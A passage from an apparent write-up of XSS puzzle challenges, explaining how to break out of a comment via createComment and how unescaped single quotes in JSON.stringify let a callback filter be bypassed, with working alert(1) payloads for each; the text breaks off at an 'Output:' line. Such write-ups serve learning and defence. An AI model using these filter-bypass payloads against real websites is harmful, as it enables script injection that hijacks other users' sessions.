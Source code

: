 However, we're not allowed to create any attributes, so `createElement` is not an idean candidate.
`createTextNode` seems promising, but unfortunately, this function will html encode your input.

Luckily, `createComment` is viable. You can use `createCommend` to create a comment tag, then enclose it with `-->`. After that, you can construct any blocks as you wism. 

Therefore, appending `<iframe/onload=alert(1)` to your payload should make your browser run `alert(1)`. (the trailing `--` will be considered as an decrement operator)

* **`Comment#--><iframe/onload=alert(1)`**

Output:

```javascript
<!----><iframe/onload=alert(1)-->
```

In normal conditions, the `<svg>` tag should work. However, `svg` is not supported on this site, so in this writeup, I'll use `<iframe>` in replace of `<svg>`.

## Callback

### Problem

```javascript
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/); 

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```

### Solution

Again, the input is split into an array using `#` as a delimeter.

`thing[0]` should only be made up of characters in `[a-zA-Z\[\]']`, and `thing[1]` will be stringified. Also, `<` is htmlencoded to `\u003c`.

It's quite interesting to know that `JSON.stringify` *does not escape single quotes*, and simultaneously, `thing[0]` also allow single quotes.

As a result, providing `'#'` as input will mess up the quotations in `<script>`:

```htmlmixed
<script>'({"userdata":"'"})</script>
```

Hence, adding `-alert(1)//` to the end of the second apostrophe tricks the browser to execute `alert(1)`.

* **`'#'-alert(1)//`**

Output:
